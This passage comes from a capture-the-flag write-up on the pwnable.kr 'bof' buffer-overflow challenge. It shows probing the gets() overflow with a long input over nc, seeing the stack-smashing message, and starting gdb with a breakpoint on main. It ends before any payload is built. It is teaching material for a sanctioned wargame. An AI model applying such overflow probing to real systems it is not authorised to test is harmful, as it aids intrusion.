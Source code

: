 This means that we must use the `gets()` function to cause a buffer overflow that allows us to obtain equality between `key` and `0xcafebabe`. Let's do an initial test by inserting the `X` character a very high number of times:

```
┌──(kali㉿kali)-[~/pwnable.kr/bof]
└─$ nc pwnable.kr 9000
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
*** stack smashing detected ***: /home/bof/bof terminated
overflow me : 
Nah..
```

compared to the previous case, when we wrote `hello world!` we got the `stack smashing detected` message which occurs when a program detects an overwriting of the stack memory. What we need to do is understand exactly how many characters to insert so that the `key` can be overwritten with `0xcafebabe` and to do this we can use a fundamental tool namely the `gdb` degubber.

> [!NOTE]
> On Kali Linux there is normally no `gdb`, to install it you can use the `sudo apt install gdb` command.

Then using the `gdb ./bof` command we use the debugger with the `bof` ELF file:

```
┌──(kali㉿kali)-[~/pwnable.kr/bof]
└─$ gdb ./bof             
GNU gdb (Debian 13.2-1+b2) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./bof...
(No debugging symbols found in ./bof)
(gdb) 
```

now, remembering the structure of the `bof.c` source file, we insert a `break main` to interrupt the execution of the code and then run the program with the `r` command:

```
(gdb) break main
Breakpoint 1 at 0x68d
(gdb) r
Starting program: /home/kali/pwnable.kr/bof/bof 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x5655568d in main ()
(gdb) 
```
